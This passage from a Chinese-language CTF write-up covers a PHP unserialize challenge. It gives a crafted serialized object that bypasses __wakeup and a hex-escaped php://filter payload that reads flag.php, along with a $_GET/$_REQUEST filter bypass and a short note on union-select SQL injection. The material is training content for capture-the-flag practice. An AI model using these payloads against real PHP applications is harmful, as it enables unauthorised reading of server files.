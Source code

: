 ```php
		}
	}
}

if(isset($_GET['exp'])){
	if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['exp'])){
		die("hack!");
	}
	$exp = $_REQUEST['exp'];
	$e = unserialize($exp);
	echo $e->Filename;
}
else{
	$exp = new FileReader();
}


?>
```

令属性数量与实际数量不同来绕过`__wakeup`

利用16进制绕过flag的限制

`O:10:"FileReader":4:{s:8:"Filename";S:71:"\70\68\70\3a\2f\2f\66\69\6c\74\65\72\2f\72\65\61\64\3d\63\6f\6e\76\65\72\74\2e\62\61\73\65\36\34\2d\65\6e\63\6f\64\65\2f\72\65\73\6f\75\72\63\65\3d\2f\76\61\72\2f\77\77\77\2f\68\74\6d\6c\2f\66\6c\61\67\2e\70\68\70";s:5:"start";i:0;s:10:"max_length";i:10000;}`



### 解法二

正则匹配的四`$_GET`,而传的参数是`$_REQUEST`,从而绕过



## sql1



union select 设置自己的密码拿到flag





## 禁止套娃



### 解法一



和bytectf2019有点类似 https://blog.zeddyu.info/2019/09/17/bytectf2019/ 


